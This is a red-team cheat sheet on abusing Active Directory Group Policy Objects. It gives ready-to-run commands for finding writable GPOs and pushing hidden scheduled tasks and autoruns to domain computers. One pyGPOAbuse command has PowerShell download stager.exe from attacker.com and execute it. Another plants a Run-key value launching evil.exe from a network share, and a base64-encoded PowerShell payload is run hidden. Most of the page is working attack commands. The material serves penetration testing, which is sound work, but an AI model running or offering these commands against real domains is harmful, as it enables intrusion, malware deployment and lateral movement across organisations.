 ```yaml
---
description: Group Policy Objects
---
```


# GPO Abuse

* [https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)
* [https://wald0.com/?p=179](https://wald0.com/?p=179)
* [https://github.com/EvotecIT/GPOZaurr](https://github.com/EvotecIT/GPOZaurr)
* [https://xakep.ru/2023/02/01/exploiting-gpo/](https://xakep.ru/2023/02/01/exploiting-gpo/)

Force GPO update on all domain computers:

```
PS > Get-ADComputer -Filter * | % {Invoke-GPUpdate -Computer $_.name -Force -RandomDelayInMinutes 0}
```




## Hunt for GPOs

List all GPOs in the domain:

```
PS > .\SharpView.exe Get-DomainGPO -Properties displayName
```

List GPOs applied to a specifiec domain user or computer:

```
PS > .\SharpView.exe Get-DomainGPO -UserIdentity snovvcrash -Properties DisplayName
PS > .\SharpView.exe Get-DomainGPO -ComputerIdentity WS01 -Properties DisplayName
Or
Cmd > gpresult /r /user snovvcrash [/h gpos-snovvcrash.html]
Cmd > gpresult /r /s WS01 [/h gpos-ws01.html]
```

Search for writable GPOs for the `Domain Users` security group:

```
PV3 > Get-DomainGPO | Get-ObjectAcl | ? {$_.SecurityIdentifier -eq ((Get-DomainGroup "Domain Users" | select objectSid).objectSid)}
PV3 > Get-DomainGPO '{<GPO_GUID>}'
Or
PS > Get-GPO -Guid <GPO_GUID>
```




## Permissions Abuse



### Recon

Show all GPOs in the domain:

```
PV3 > Get-NetGPO -Domain megacorp.local | select cn,displayname
```

Search for GPOs that are controlled by the `MEGACORP\PolicyAdmins` group:

```
PV3 > Get-NetGPO | % {Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "MEGACORP\PolicyAdmins"}
```

List computers that are affected by vulnerable (modifiable) GPO:

```
PV3 > Get-NetOU -GUID "00ff00ff-00ff-00ff-00ff-00ff00ff00ff" | % {Get-NetComputer -ADsPath $_}
```

Note: if I list all OUs affected by this GPO with PowerView, there will be no domain shown (like in BloodHound), but in Group Policy Manager we can see that it is presented.

Check if computer settings are enabled for this GPO (and enable them if not):

* [https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801](https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801)

```
PS > Get-Gpo VULN.GPO.NAME
PS > Set-GpoStatus VULN.GPO.NAME -Status AllSettingsEnabled
```

List users that can create a GPO and link it to a specific OU:

```
PV3 > Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=megacorp,DC=local" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -match "CreateChild" } | select objectDN,securityIdentifier | fl
PV3 > Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select objectDN,securityIdentifier | fl
```



### Immediate Scheduled Tasks


#### GPOImmediateTask

* [PowerView3.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) [(New-GPOImmediateTask)](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)

Create a task with a PowerShell payload:

```
$ echo 'sc -path "c:\\windows\\temp\\poc.txt" -value "GPO Abuse PoC..."' | iconv -t UTF-16LE | base64 -w0; echo
cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=
PS > New-GPOImmediateTask -TaskName Pentest -GPODisplayName VULN.GPO.NAME -CommandArguments '-NoP -NonI -W Hidden -Enc cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=' -Force
```

Clean up:

```
PS > New-GPOImmediateTask -GPODisplayName VULN.GPO.NAME -Remove -Force
```

Check when GP was last applied:

```
Cmd > GPRESULT /R
```


#### GPOwned + pyGPOAbuse

- [https://github.com/X-C3LL/GPOwned](https://github.com/X-C3LL/GPOwned)
- [https://github.com/Hackndo/pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)

Get target GPO ID:

```
$ python3 GPOwned.py -u snovvcrash -p 'Passw0rd!' -d megacorp.local -dc-ip 192.168.1.11 -gpcmachine -listgpo
```

Create an immediate scheduled task:

```
$ python3 pygpoabuse.py megacorp.local/snovvcrash:'Passw0rd!' -gpo-id <GPO_ID> -dc-ip 192.168.1.11 -v -command -powershell '(New-Object Net.WebClient).DownloadFile("https://attacker.com/stager.exe", "C:\Windows\Temp\stager.exe"); if ($?) {C:\Windows\Temp\stager.exe}'
```



### GPPrefRegistryValue

Check if GPMC is installed and if it's not, install it as a Windows Feature (requires elevation):

```
PS > Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
PS > Install-WindowsFeature –Name GPMC
```

Create an evil GPO and link it to the target OU (will be visible in the management console):

```
PS > New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=megacorp,DC=local"
```

Locate a writable network share:

```
PV3 > Find-DomainShare -CheckShareAccess
```

Prepare your payload, put it to the network share and create an autorun value in the evil GPO to run the payload on boot/logon:

```
PS > Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min /c \\srv01\SoftwareShare\evil.exe" -Type ExpandString
```




## WMI Filters

- [https://rastamouse.me/ous-and-gpos-and-wmi-filters-oh-my/](https://rastamouse.me/ous-and-gpos-and-wmi-filters-oh-my/)




## GPO Abuse via NTLM Relay

- [https://www.synacktiv.com/publications/gpoddity-exploiting-active-directory-gpos-through-ntlm-relaying-and-more](https://www.synacktiv.com/publications/gpoddity-exploiting-active-directory-gpos-through-ntlm-relaying-and-more)
- [https://github.com/synacktiv/GPOddity](https://github.com/synacktiv/GPOddity)




## Tools

- [https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
